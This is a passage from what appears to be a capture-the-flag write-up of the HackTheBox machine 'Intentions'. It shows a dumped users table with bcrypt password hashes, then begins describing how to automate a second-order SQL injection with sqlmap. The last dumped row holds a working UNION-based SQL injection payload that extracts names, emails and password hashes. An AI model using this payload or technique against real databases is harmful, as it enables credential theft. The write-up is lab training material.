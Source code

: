     Rose Rutherford:mellie.okon@example.com:0:$2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx/kpO/XcKw1m:food,travel,nature
    Dr. Chelsie Greenholt I:trace94@example.net:0:$2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W:food,travel,nature
    Prof. Johanna Ullrich MD:kayleigh18@example.com:0:$2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi:food,travel,nature
    Prof. Gina Brekke:tdach@example.com:0:$2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2.:food,travel,nature
    Jarrett Bayer:lindsey.muller@example.org:0:$2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS:food,travel,nature
    Macy Walter:tschmidt@example.org:0:$2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm:food,travel,nature
    Prof. Devan Ortiz DDS:murray.marilie@example.com:0:$2y$10$I7I4W5pfcLwu3O/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S:food,travel,nature
    Eula Shields:barbara.goodwin@example.com:0:$2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY/ny1.kp/qFzU22t0aBNJHEMkg2:food,travel,nature
    Mariano Corwin:maggio.lonny@example.org:0:$2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB/N2/lf76YTn1FQGiya:food,travel,nature
    Madisyn Reinger DDS:chackett@example.org:0:$2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW:food,travel,nature
    Jayson Strosin:layla.swift@example.net:0:$2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf/OhpXbkklsHoLdA8aVt3Ei:food,travel,nature
    Zelda Jenkins:rshanahan@example.net:0:$2y$10$/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2:food,travel,nature
    Eugene Okuneva I:shyatt@example.com:0:$2y$10$k/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ/Cllvgy:food,travel,nature
    Mrs. Rhianna Hahn DDS:sierra.russel@example.com:0:$2y$10$0aYgz4DMuXe1gm5/aT.gTe0kgiEKO1xf/7ank4EW1s6ISt1Khs8Ma:food,travel,nature
    Viola Vandervort DVM:ferry.erling@example.com:0:$2y$10$iGDL/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa:food,travel,nature
    Prof. Margret Von Jr.:beryl68@example.org:0:$2y$10$stXFuM4ct/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa:food,travel,nature
    Florence Crona:ellie.moore@example.net:0:$2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy:food,travel,nature
    Tod Casper:littel.blair@example.org:0:$2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou:food,travel,nature
    0xdf:0xdf@intentions.htb:0:$2y$10$YUmJGH/nZwMGYmrz.TqDHOtpq1VK4xrw87YtsEJhaobmQ23pY7AbW:')/**/UNION/**/SELECT/**/1,2,concat(name,':',email,':',password,':',genres),4,5/**/from/**/users#
    

I’ll note the top two, steve and greg, have the “admin” attribute set to 1.

### SQL Injection [sqlmap]

#### Identify

I’ve shown exploiting a complicated second-order SQL injection with `sqlmap`
before, five years ago in [Nightmare](/2018/07/07/second-order-sql-injection-
on-htb-nightmare.html#nightmare-sqli-with-sqlmap).

I can do all the steps above with `sqlmap`. I’ll need a couple things:

  * Save request setting genres without any injection and only a single genre to a file, `genres.request`.
  * Save a request fetching the user feed to a file, `feed.request`.
